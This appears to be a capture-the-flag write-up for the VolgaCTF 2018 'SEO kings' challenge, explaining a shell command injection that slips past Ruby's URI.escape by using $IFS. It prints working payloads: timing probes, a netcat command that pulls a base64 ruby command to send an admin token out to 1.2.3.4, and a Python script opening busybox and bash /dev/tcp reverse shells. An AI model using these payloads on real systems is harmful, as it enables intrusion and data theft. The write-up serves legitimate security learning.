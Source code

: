 Phantomjs? Cool, it's XSS challenge. However, we tried various of XSS payload
but they all failed to work.
([NULLKrypt3rs](https://github.com/NULLKrypt3rs/CTFs/blob/master/VolgaCTF-2018/SEOkings.md)
makes the XSS work, actually.) Therefore, we start to try other attacks.

The ruby source uses `URI.escape(site)` to prevent command injection. It
sounds sorts of weird. Why escape URI? It shoud escape command line
parameters. That's the signal of possible command line injection.

Here is the PoC:

```  
# response time 0.4s  
a';sleep$IFS$((0));'  
# response time 1.4s, because the process will timeout  
a';sleep$IFS$((5));'  
```

The space is escaped, so `$IFS` is used as space:) The appending `$((0))` is
to make the shell interpret `$IFS` variable properly.

Thanks to @sasdf. Here is his payload:  
```  
POST payload:  
site=a';$(nc$IFS$((1)).2.3.4$IFS$((9000)));'

Server side:  
echo "ruby -e require('base64');system(Base64.decode64('...'))" | ncat -lvp 9000 --send-only

Base64 payload:  
curl http://127.0.0.1:8080/admin?token=d595462f496fd347796b60b605b72ff6 -L -vv 2>&1 | nc 1.2.3.4 9001  
```

[jinmo123](https://ctftime.org/writeup/9366)'s payload is more elegant. The
`nc` in busybox supports `-e` option, which can be used to pipe into shell to
execute.

We modified his payload to connect with reverse shell:

```python  
#!/usr/bin/env python3  
# Python 3.6.4  
import requests  
# python3 pwntool  
from pwn import *

server = listen(12345)  
server_result = listen(12346)

payload = "a';busybox$IFS$()nc$IFS$()1.2.3.4$IFS$()12345$IFS$()-esh;'"  
requests.post('http://seo-kings.quals.2018.volgactf.ru:8080/',
data=dict(site=payload))

cmd = "bash -c 'bash -i >& /dev/tcp/1.2.3.4/12346 0>&1'"

server.wait_for_connection()  
server.sendline(cmd)  
server.close()  
server_result.wait_for_connection()  
server_result.interactive()  
```
